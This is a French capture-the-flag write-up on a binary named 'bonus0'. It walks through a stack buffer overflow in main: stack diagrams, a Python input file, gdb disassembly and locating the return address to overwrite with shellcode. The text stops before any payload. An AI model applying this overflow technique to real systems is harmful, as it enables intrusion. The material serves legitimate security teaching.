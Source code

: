 # Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme effectue deux demandes en entrée standard. Un buffer de `54` caractères est présent dans la fonction `main`.

Le `buffer` étant déclaré dans la fonction `main`, il nous est impossible d'exploiter un `overflow` pour écraser l'adresse de retour de la fonction `pp`. En effet, la fonction `pp` étant appelée depuis la fonction `main`, ses arguments dans la `stack` se situent avant les arguments de la fonction `main`. On peut le représenter de la manière suivante :
```
----------------------- pp
[...]
[...]
[ret]
----------------------- main
[...]
[buffer]
[...]
[ret]
-----------------------
```
Il parait donc intéressant ici d'exploiter un `overflow` sur le buffer de la fonction `main` pour écraser l'adresse de retour de la fonction `main` et ainsi exécuter notre `shell code`.

Tout d'abord, déterminons où se situe l'adresse de retour de la fonction `main`. Nous savons qu'elle est située à `ebp+0x04`. Avec `gdb`, on `break` dans la fonction `main`, puis on affiche cette valeur.

Au préalable, nous allons créer un fichier qui va contenir des commandes `python` qui nous permettrons de fournir des entrées au programme via `gdb`.
```
> cat /tmp/basic_input
python -c 'print "A"*4 + "\n"' ; python -c 'print "B"*4'
> chmod 777 /tmp/basic_input
```

```
> gdb bonus0
[...]
> (gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave  
   0x080485cb <+39>:	ret    
End of assembler dump.
> (gdb) b *0x080485b4
Breakpoint 1 at 0x80485b4
> (gdb) r < <(/tmp/basic_input)
[...]
> (gdb) x $ebp+0x04
0xbffff6ec:	0xb7e454d3
> (gdb) x 0xb7e454d3
0xb7e454d3 <__libc_start_main+243>:	0xe8240489
```
L'adresse de retour de la fonction `main` est donc située à l'adresse `0xbffff6ec`

